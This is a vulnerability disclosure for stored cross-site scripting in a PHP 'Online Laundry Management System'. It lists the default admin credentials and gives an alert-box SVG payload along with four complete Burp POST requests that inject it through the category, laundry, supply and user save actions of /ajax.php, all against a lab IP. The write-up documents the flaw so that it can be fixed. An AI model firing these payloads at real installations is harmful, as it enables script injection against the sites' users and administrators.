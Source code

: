 ## Online Laundry Management System

## XSS on `/ajax.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/ajax.php
```

The parameter `name/customer_name/username` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

**Payload:**

```
<svg/onload=alert``>
```

**Burp Request:**

```
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.150.131
Content-Length: 338
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMLDvc4YcwfoiLyAu
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=categories
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="price"

30
------WebKitFormBoundaryMLDvc4YcwfoiLyAu--

```

![image-20240510170709318](./screenshot/image-20240510170709318.png)

```
POST /ajax.php?action=save_laundry HTTP/1.1
Host: 192.168.150.131
Content-Length: 1229
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGdW9FdTIRkbJnFyB
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=laundry
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="customer_name"

<svg/onload=alert``>
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="remarks"

2
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="item_id[]"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="laundry_category_id[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="weight[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="unit_price[]"

30
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="amount[]"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="pay"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tendered"

4
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tamount"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="change"

-86.00
------WebKitFormBoundaryGdW9FdTIRkbJnFyB--

```

![image-20240510165556312](./screenshot/image-20240510165556312.png)

```
POST /ajax.php?action=save_supply HTTP/1.1
Host: 192.168.150.131
Content-Length: 244
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymmTUxrAvdnynB6Ii
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=supply
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="id"


------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundarymmTUxrAvdnynB6Ii--

```

![image-20240510171922293](./screenshot/image-20240510171922293.png)

```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 87
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=1&name=<svg/onload=alert`1`>&username=<svg/onload=alert`2`>&password=admin123&type=1
```

![image-20240510174657533](./screenshot/image-20240510174657533.png)

![image-20240510174630703](./screenshot/image-20240510174630703.png)









